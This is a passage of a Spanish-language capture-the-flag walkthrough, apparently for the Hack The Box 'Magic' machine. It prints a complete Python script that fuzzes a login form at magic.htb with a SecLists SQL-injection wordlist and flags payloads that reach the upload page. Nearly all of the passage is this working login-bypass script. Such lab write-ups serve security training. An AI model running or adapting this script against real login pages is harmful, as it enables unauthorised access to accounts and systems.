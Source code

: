 Por último solo creamos nuestro método main.
```python
if __name__ == "__main__":
	print("")
	for linea in dic: #Recorremos cada linea del dic[]
		p1.status(linea) #Actualizamos la inyección en la que va actualmente el for.
		ataque(linea) #Enviamos la inyección.

	p1.success("Ataque finalizado.")
```

**Script completo:**
```python
#!/usr/bin/env python3
import requests,signal,sys
from pwn import *

#Variables globales
dic =[] 
p1 = log.progress("Inyección")

with open("/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt","r") as f:
	for linea in f:
		palabra = linea.strip()
		dic.append(palabra)

def handler(key,frame):
	print("Adios!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)

def ataque(inyeccion):
	url = "http://magic.htb/login.php"

	data1={
		"username":inyeccion,
		"password":inyeccion
	}

	r1 = requests.post(url,data=data1)
	if("Select Image to Upload" in r1.text):
		log.info("Inyección Correcta: {}".format(inyeccion))

if __name__ == "__main__":
	print("")
	for linea in dic:
		p1.status(linea)
		ataque(linea)

	p1.success("Ataque finalizado.")
```
